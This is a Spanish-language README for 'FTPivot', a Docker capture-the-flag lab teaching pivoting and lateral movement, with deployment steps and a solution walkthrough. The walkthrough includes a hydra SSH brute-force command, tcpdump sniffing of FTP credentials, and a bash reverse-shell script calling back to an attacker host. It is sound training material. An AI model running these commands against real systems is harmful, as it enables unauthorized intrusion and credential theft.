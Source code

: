 # FTPivot

- [1. Descripción General](#1.-descripción-general)
- [2. Instalación y Despliegue](#2.-instalación-y-despliegue)
- [2.1. Despliegue automático](#2.1.-despliegue-automático)
- [2.2. Despliegue manual](#2.2.-despliegue-manual)
- [3. Descripción de laboratorio](#3.-descripción-de-laboratorio)
- [4. Solución del Laboratorio](#4.-solución-del-laboratorio)
- [4.1. Cracking de Credenciales](#4.1.-cracking-de-credenciales)
- [4.2. Búsqueda de la flag](#4.2.-búsqueda-de-la-flag)
- [4.3. Recolección de información](#4.3.-recolección-de-información)
- [4.4. Monitoreo de Tráfico FTP](#4.4.-monitoreo-de-tráfico-ftp)
- [4.5. Acceso FTP y Manipulación de Scripts](#4.5.-acceso-ftp-y-manipulación-de-scripts)
- [4.6. SSH y Descubrimiento de PassPhrase](#4.6.-ssh-y-descubrimiento-de-passphrase)
- [4.7. Conversión Hexadecimal y Descubrimiento de la Flag](#4.7.-conversión-hexadecimal-y-descubrimiento-de-la-flag)

## 1. Descripción General

Este laboratorio es una simulación de un entorno de red diseñado para practicar técnicas de análisis y penetración de sistemas. Utiliza Docker para simular dos servidores diferentes, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de ciberseguridad.

## 2. Instalación y Despliegue

Antes del despliegue de nuestro laboratorio será necesario craer una red en Docker de tipo _bridge_:

```bash
docker network create ftpivot
```

### 2.1. Despliegue automático

Para desplegar el laboratorio bastará con ejecutar:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

### 2.2. Despliegue manual

Para construir tus propias imágenes deberás clonar el repositorio y construir las imágenes:

```bash
git clone https://github.com/kradbyte/elemental-labs.git
docker build -t kradbyte/ftpivot:pivot1 -f elementals-labs/5-FTPivot/Dockerfile.a elementals-labs/5-FTPivot
docker build -t kradbyte/ftpivot:pivot2 -f elementals-labs/5-FTPivot/Dockerfile.b elementals-labs/5-FTPivot
```

Luego podremos desplegar los contenedores:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

> **Nota**: Se recomienda no cambiar el nombre de los contenedores, dado que para las conexiones internas se utilizan estos nombres para la resolución de DNS. En caso se quiera cambiar el nombre de los contenedores se tendrán que cambiar los nombres en los archivos de configuración de las máquinas.

## 3. Descripción de laboratorio

En este laboratorio, deberás infiltrarte en un servidor para capturar una flag. Utilizarás una combinación de habilidades adquiridas previamente, además de introducirte en el concepto de movimiento lateral.

**Concepts**
Pivoteo: Exploración de dispositivos, servicios o redes internas que no son accesibles directamente desde la red pública.
Movimiento Lateral: Una vez se tiene acceso a un dispositivo, consiste en utilizarlo para ganar acceso a otros dispositivos dentro de la misma red.

**Steps**
- Gana acceso al servidor con SSH.
- Busca información relevante sobre posibles conexiones a otros hosts dentro de la red interna.
- Monitorea el tráfico de red y gana acceso al nuevo host (reverse shell).
- Consigue la llave para la nueva conexión.
- Con el nuevo usuario compara las flags que encontraste dentro del host y descifra la flag del laboratorio.

**Tools**
Nmap, NetCat, scripting bash, tcpdump, WireShark, SSH, curl, FTP.

**Grants**
- Verificar logs de lo que se esté trabajando o cualquier carpeta/archivo que contenga lo que se esté trabajando (SSH, la flag, FTP, etc.).
- Verificar tareas programadas.
- Usuario para SSH “guest”.

**Resultado**
Al final de este laboratorio, deberás ser capaz de entender y ejecutar un ataque de movimiento lateral dentro de una red simulada, utilizando herramientas y técnicas comunes en la ciberseguridad. La flag capturada demostrará tu éxito en el uso combinado de estos métodos y herramientas.

## 4. Solución del Laboratorio

### 4.1. Cracking de Credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al primer host. La descripción nos proporciona el usuario "guest", por lo que deberemos descubrir la contraseña. Podremos utilizar alguna herramienta como _hydra_:

```bash
hydra -L guest -p /ruta/a/tu/diccionario ssh://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` por la IP del servidor donde está montado el servidor y el puerto por el que corre el servicio, en caso de haberse configurado para exponer SSH en otro puerto distinto al 22.

### 4.2. Búsqueda de la flag

Una vez dentro del servidor podremos buscar la flag con algún comando como los siguientes:

```bash
find / -name \*flag\* -type d 2>/dev/null
find / -name \*flag\* -type f 2>/dev/null
```

Al encontrar la flag nos daremos cuenta que hay dos flag, uno "old" y un "new", por lo que deberemos comparar las flag, pero una flag solo se pude leer por otro usuario, por lo que deberemos buscar alguna forma de conseguir el acceso al otro usuario.

### 4.3. Recolección de información

Al buscar dentro del servidor y llegar a las tareas cron, observaremos un par de tareas que se ejecutan por el usuario que necesitamos, así que podremos intentar capturar las peticiones para ver si podemos encontrar algo en el tráfico de red.

### 4.4. Monitoreo de Tráfico FTP

Para monitorear el tráfico utilizaremos tcpdump:

```bash
tcpdump -i eth0 -w trafic.pcap
```

Una vez tengamos capturado el tráfico podremos compartirlo con nuestro host principal para analizarlo con WireShark. Se recomienda montar un servidor http simple con capacidad PUT/POST.
Una vez analizado el tráfico y filtramos por FTP encontraremos las credenciales y la IP de la otra máquina, por lo que podríamos conectarnos por FTP y ver qué podemos encontrar en la otra máquina.

### 4.5. Acceso FTP y Manipulación de Scripts

Cuando hayamos obtenido las credenciales del FTP en el paso anterior podremos conectarnos al servicio. Recuerda conectarte por FTP desde el servidor, dado que este servicio corre en la red interna del servidor y no estará accesible desde host principal.
Al ingresar y listar lo que hay en el directario donde estamos notaremos que hay un script que ejecuta scripts en una carpeta, por lo que podremos crear nuestro propio script y ganar acceso a la máquina. Se recomienda hacer un script para una reverse shell, pero se es libre de optar por el camino que se gusta, como trabajar con la forward shell, ejecución de binarios externos trasferidos por FTP, etc.

```bash
#!/bin/bash
bash >& /dev/tcp/ClientIP/ListenPort 0>&1
```

### 4.6. SSH y Descubrimiento de PassPhrase

Al buscar dentro de la máquina en el historial de comandos en el archivo `.bash_history`, encontraremos un comando para conexión por SSH al usuario que necesitamos para leer la otra flag y al buscar la ruta de la llave, podremos conectarnos también al nuevo usuario encontrado. El problema es que si intentamos conectarnos nos pedirá una PasPhrase que no tenemos y deberemos buscar.
Si buscamos en las tareas programadas del usuario encontraremos la PassPhrase que buscamos:

```bash
cat /home/user/.bash_history
crontab -l
```

### 4.7. Conversión Hexadecimal y Descubrimiento de la Flag

Cuando nos hayamos conectado por SSH al usuario que necesitábamos podremos leer la otra flag, ahora bastará con darle permisos de lectura a todos los usuarios para que podamos comparar las dos flag. La diferencia resultante será un archivo ".txt" en hexadecimal, por lo que bastará con convertir el texto hexadecimal a un archivo legible y habremos resuelto el laboratorio.
